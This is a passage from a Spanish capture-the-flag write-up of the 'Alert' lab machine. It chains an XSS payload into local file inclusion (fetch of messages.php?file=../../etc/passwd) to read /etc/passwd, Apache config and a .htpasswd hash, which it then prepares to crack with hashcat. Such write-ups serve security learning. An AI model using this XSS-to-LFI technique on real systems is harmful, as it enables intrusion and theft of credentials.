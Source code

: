 Vemos que efectivamente recibimos el contenido, decodifiquemoslo para verlo.

```bash
$ base64 -d <<< PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

Podemos ver que hace referencia a un archivo mediante el parámetro file, teniendo en cuenta que es una página no accesible para nosotros, dado que no somos administradores, es probable que no tenga prevenciones contra `Local File Inclusion (LFI)`, probemos subiendo un payload que contenga `fetch('/messages.php?file=../../../../../etc/passwd')` a ver si podemos leer el archivo por ejemplo.

![alert]({{"/assets/images/alert7.png"}})

Recibimos el archivo `/etc/passwd` codificado en base64, una vez decodificado, podemos ver que tenemos 2 usuarios en la máquina sin contar los que corren servicios o son del sistema.

![alert]({{"/assets/images/alert8.png"}})

Tenemos a los usuarios `albert` y  `david`, por tanto, tenemos LFI a través de una XSS, intentemos sacar más archivos, cómo por ejemplo un archivo de configuración de apache, como `000-default.conf` que contiene la configuración de los virtual hosts, así, si hay algún virtual host, podemos añadirlo a la entrada del archivo `/etc/hosts/` para ver que nos encontramos en él.

Una vez lo tenemos, y lo decodificamos, podemos ver cómo existe un Vhosts, que no habíamos enumerado previamente, que es `statistics.alert.htb`.

![alert]({{"/assets/images/alert9.png"}})

Podemos ver que contiene también un archivo de autenticación `.htpasswd`, el cual nos hace pensar que puede requerir autenticación básica, y no tenemos credenciales.

Añadamos el Vhost al archivo `/etc/hosts` e investiguemoslo.

```bash
$ tail -n1 /etc/hosts
10.129.231.188 alert.htb statistics.alert.htb
```

![alert]({{"/assets/images/alert10.png"}})

Efectivamente, requiere autenticación, y, aunque estamos sin credenciales, podemos leer el archivo de autenticación, a ver que encontramos, modifiquemos el payload para leer el archivo `/var/www/statistics.alert.htb/.htpasswd` a ver qué encontramos.

```bash
$ base64 -d <<< 'PHByZT5hbGJlcnQ6JGFwcjEkYk1vUkJKT2ckaWdHOFdCdFExeFlEVFFkTGpTV1pRLwo8L3ByZT4K'
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```

Podemos encontrar credenciales, usuario `alberto` y las credenciales están en formato hash, usaremos `hashId` para identificar el formato y crackearlas con `hashcat`.

```bash
$ hashid hash_alberto.txt -m
--File 'hash_alberto.txt'--
Analyzing '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
[+] MD5(APR) [Hashcat Mode: 1600]
[+] Apache MD5 [Hashcat Mode: 1600]
--End of file 'hash_alberto.txt'--
```
